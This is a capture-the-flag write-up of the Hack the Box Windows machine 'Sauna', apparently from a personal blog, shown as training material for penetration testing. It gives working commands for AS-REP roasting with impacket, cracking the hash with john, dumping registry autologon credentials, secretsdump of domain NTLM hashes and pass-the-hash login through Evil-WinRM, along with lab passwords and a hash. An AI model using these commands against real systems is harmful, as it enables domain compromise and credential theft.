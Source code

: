 +++
author = "Nick"
categories = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
date = 2020-07-18T14:59:00Z
description = ""
draft = false
thumbnail = "/images/2020/02/info.png"
slug = "hack-the-box-sauna"
summary = "Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!"
tags = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
title = "Hack the Box - Sauna"
url = "/hack-the-box-sauna"

+++


Welcome back! Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA all_ports 10.10.10.175`

```
Nmap scan report for 10.10.10.175
Host is up (0.055s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-21 04:11:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/20%Time=5E4EE79D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m23s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-21T04:13:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.56 seconds
```

We see a few things right off the bat. A site being hosted on port 80, LDAP, WinRM and RPC ports available as well as SMB. We get back a domain for LDAP, `EGOTISTICAL-BANK.LOCAL0`.

We'll start with enumerating the web site by hand. While we do that we'll also kick of a `gobuster` scan.

Command:
`gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 15`

We'll also run the `nmap` script for ldap enumeration.

Command:
`nmap -n -sV --script "ldap*" -p 389 10.10.10.175`

We get a large output from this as well. At the bottom of the output we see we do indeed have a user. Hugo Smith. Now this doesn't quite match up with the users we saw on the about.html page, clever.

![](/images/2020/02/image.png)

We continue to enumerate the website but don't find anything. Our `gobuster` comes back with the same results we saw while we were manually browsing the site and source.

Now if you are familiar with attacking Windows machines you might be familiar with Kerberos and how much fun it is to break! In this case the first thing we are going to try is to leverage the Active Directory setting called 'Disabling Kerberos Pre-Authentication'. In short, [without Kerberos Pre-Authentication a malicious attacker can directly send a dummy request for authentication](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx). In order for this to work, we need a list of user. We have one user for sure. So we'll create a list of potential Active Directory names that this user could go by. 

```
hsmith
hugosmith
h.smith
hu.smith
hugo.smith
smith.hugo
smithh 
smith.h
```

Command:
`python3 GetNPUsers.py -format john -usersfile ~/Documents/htb/sauna/users.lst EGOTISTICAL-BANK.local/ -o ~/Documents/htb/sauna/impacket_output.txt
`

We get a hit on `hsmith`. Now we know the naming convention. We also noticed the about page with a list of the team members on it. We can then infer the names of these users in Active directory to have the same convention as above. We will compile them into a list and run that through the same impacket script.

```
fsmith
scoins
btaylor
sdriver
hbear
```

Once we do that we see four Session errors, but we have 5 users! We have a hash!

![](/images/2020/02/sauna-user.gif)

Now that we have a hash, let's crack it!

Command:
`john --wordlist=/usr/share/wordlists/rockyou.txt impacket_output.txt`

![](/images/2020/02/image-1.png)

We have a password of `Thestroke23`. Awesome, now we can potentially leverage this in `Evil-WinRM`.

![](/images/2020/02/image-2.png)

Turns out we can! We log in as fsmith and move right to the Desktop and snag our user.txt. Now it's time to start enumerating internally. We'll upload `WinPEAS` to the machine and run it to see what we can find.

Command:
`*Evil-WinRM* PS> upload /root/Tools/peas/winPEAS/winPEASbat/winPEAS.bat`
`*Evil-WinRM* PS> .\winPEAS.bat`

After you run the script, you should see some credentials. Alternatly, if you cannot get WinPEAS to run. You can run each of the queries it runs, manually. This isn't a terrible idea, especially if you could use some practice on enumerating your Windows machines. The key we are looking for is in this query:

Command:
`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`

![](/images/2020/02/image-3.png" caption=")

We see a set of stored credentials! Let's pivot to this user just like we did with fsmith. However, this username doesn't match up with the users we saw. The enumerated username as shown by `WinPEAS` or manual enumeration is svc_loanmgr.

Command:
`./evil-winrm.rb -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`

![](/images/2020/02/image-4.png)

Once we've connected as this service account we can do a few things. Normally I use `Bloodhound` to enumerate a second account but before I try that I try some basic things like Impackets [`secretdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py), WINpeas and some other internal commands. In this case, secrets dump works out!

Command:
`impacket-secretsdump -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175`

![](/images/2020/02/sauna_secret_dump.gif)

You could also replicate this same technique by upload `mimikatz` and executing `lsadump`. Now we see we have an NTLM hash for our Administrator account. We have a few options.  We can crack the hash offline, we can use attempt to use some tools with these hashed credentials like `psexec.py` or we can login with the hash via `Evil-WinRM`. 

In this case I'll just login with `Evil-WinRM`.

Command:
`Evil-WinRM -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff`

![](/images/2020/02/admin_winrm.gif)

And we are in! We head over to the Desktop and grab the flag! Root acquired! I hope you enjoyed this box. All in all I would say this is a great box for understanding Windows' entry techniques.

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



